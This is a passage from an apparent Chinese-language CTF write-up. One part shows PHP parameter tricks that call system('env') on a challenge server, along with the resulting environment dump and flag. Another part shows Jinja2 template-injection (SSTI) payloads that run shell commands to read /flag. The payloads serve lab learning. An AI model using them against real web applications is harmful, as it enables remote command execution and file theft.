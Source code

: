 我用的是hacker传参，需要在源代码处查看回显，但是检查几个目录之后没有flag的地方，最后在变量env处找到flag

```
#GET
?NewStar[CTF.2024=Welcome%0a
#POST
papa=TfflxoU0ry7c&func=system&args=env
```

```makefile
APACHE_CONFDIR=/etc/apache2
HOSTNAME=engine-1
PHP_INI_DIR=/usr/local/etc/php
ECI_CONTAINER_TYPE=normal
SHLVL=1
PHP_LDFLAGS=-Wl,-O1 -pie
APACHE_RUN_DIR=/var/run/apache2
PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
PHP_VERSION=7.4.33
APACHE_PID_FILE=/var/run/apache2/apache2.pid
GPG_KEYS=42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312
PHP_ASC_URL=https://www.php.net/distributions/php-7.4.33.tar.xz.asc
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
PHP_URL=https://www.php.net/distributions/php-7.4.33.tar.xz
USERNAME=
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_GROUP=www-data
APACHE_RUN_USER=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/html
PHPIZE_DEPS=autoconf 		dpkg-dev 		file 		g++ 		gcc 		libc-dev 		make 		pkg-config 		re2c
PHP_SHA256=924846abf93bc613815c55dd3f5809377813ac62a9ec4eb3778675b82a27b927
PASSWORD=
APACHE_ENVVARS=/etc/apache2/envvars
FLAG=flag{b77bcacf-165a-4bb1-b12b-74dac13c4691}

```



---

### 复读机

> 其实看到题目名字就猜到是模板注入（SSTI）

这里我试了一下，直接得到flag了

```python
{{lipsum.__globals__['os'].popen('tac /flag').read()}}
```

这里再贴一个

```python
{{cycler.__init__.__globals__.os.popen('cat /flag').read()}}
```

